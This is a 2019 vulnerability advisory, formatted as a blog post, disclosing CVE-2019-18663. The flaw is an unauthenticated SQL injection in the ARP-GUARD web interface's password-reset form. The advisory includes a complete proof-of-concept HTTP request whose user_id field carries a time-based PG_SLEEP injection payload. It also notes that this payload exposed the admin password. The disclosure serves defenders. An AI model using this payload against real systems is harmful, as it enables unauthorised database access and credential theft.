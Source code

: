 ```yaml
---
layout: post
title: "CVE-2019-18663: SQL-Injection in ARP-GUARD"
date:   2019-11-01 14:00:00
image:
      url: /assets/article_images/2016-05-30-inspec-cis-docker/cover.jpeg
video: false
comments: true
theme_color: 302F2D

author: 'Patrick Münch'

author_image: "https://avatars0.githubusercontent.com/u/7220740?s=400"
author_link: "https://twitter.com/atomiczero111"
---
```


# Overview

- Vendor: ISL Internet Sicherheitslösungen GmbH
- Product: ARP-GUARD
- Version: 4.0.0-5
- Vulnerability: SQL-Injection
- Fixed Version: 4.0.0-7

# Background

ARP-GUARD is a Network Access Control Solution to protect company networks against from unauthorised access. It identify allowed devices via their MAC address or certificates (802.1X).

From the vendor's website:
"ARP-GUARD makes sure that users don't use any unauthorised notebooks, smartphones or even wireless access points. Our software solution protects your IT infrastructure from malware-infected external devices and your intellectual property from unauthorised access! Our security solution provides reliable protection against unauthorised access to the internal LAN and WLAN, as well as the Internet. With ARP-GUARD, only authorized devices are granted access to your network!"

# Issue Description

While analyzing the implementation of the ARP-GUARD web interface, one SQL-Injection vulnerability has been identified, which can be exploited in order to read dump all database data, also the username and passwords for the web application. This vulnerability can be exploited by unauthenticated attackers with access to the web interface.

Please consider the following HTTP request:

__HTTP-Request__

~~~ http
POST /login/forgot1 HTTP/1.1
Host: 10.10.10.1
Connection: close
Content-Length: 119
Cache-Control: max-age=0
Origin: https://10.10.10.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML,
  like Gecko) Falkon/3.0.1 Chrome/69.0.3497.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,
image/webp,image/apng,*/*;q=0.8
Referer: https://10.10.10.1/login/forgot1
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.8
Cookie: session_id=whocares; S=whocares

answer=myniceanwser&check=Pr%C3%BCfen&username=username&user_id=
(SELECT 7529 FROM PG_SLEEP(10))
~~~

It was possible to extract the admin password for the web application via the time-based SQL-Injection.

# CVE

[CVE-2019-18663](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18663)

# CVSSv3 Base Score

CVSS Base Score: __8.1__

CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H

# Credit

Pascal Keul of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)
Patrick Muench of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)
Torsten Löbner of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
